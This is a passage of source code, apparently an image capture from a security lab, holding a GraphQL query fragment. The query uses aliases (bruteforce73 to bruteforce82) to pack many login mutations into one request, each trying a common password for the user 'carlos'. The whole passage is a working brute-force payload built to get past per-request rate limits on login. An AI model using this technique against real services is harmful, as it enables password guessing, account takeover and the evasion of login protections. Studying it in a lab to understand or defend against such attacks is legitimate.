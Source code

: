 ```
    }


bruteforce73:login(input:{password: "ginger", username: "carlos"}) {
        token
        success
    }


bruteforce74:login(input:{password: "princess", username: "carlos"}) {
        token
        success
    }


bruteforce75:login(input:{password: "joshua", username: "carlos"}) {
        token
        success
    }


bruteforce76:login(input:{password: "cheese", username: "carlos"}) {
        token
        success
    }


bruteforce77:login(input:{password: "amanda", username: "carlos"}) {
        token
        success
    }


bruteforce78:login(input:{password: "summer", username: "carlos"}) {
        token
        success
    }


bruteforce79:login(input:{password: "love", username: "carlos"}) {
        token
        success
    }


bruteforce80:login(input:{password: "ashley", username: "carlos"}) {
        token
        success
    }


bruteforce81:login(input:{password: "nicole", username: "carlos"}) {
        token
        success
    }


bruteforce82:login(input:{password: "chelsea", username: "carlos"}) {
        token
        success
    }


```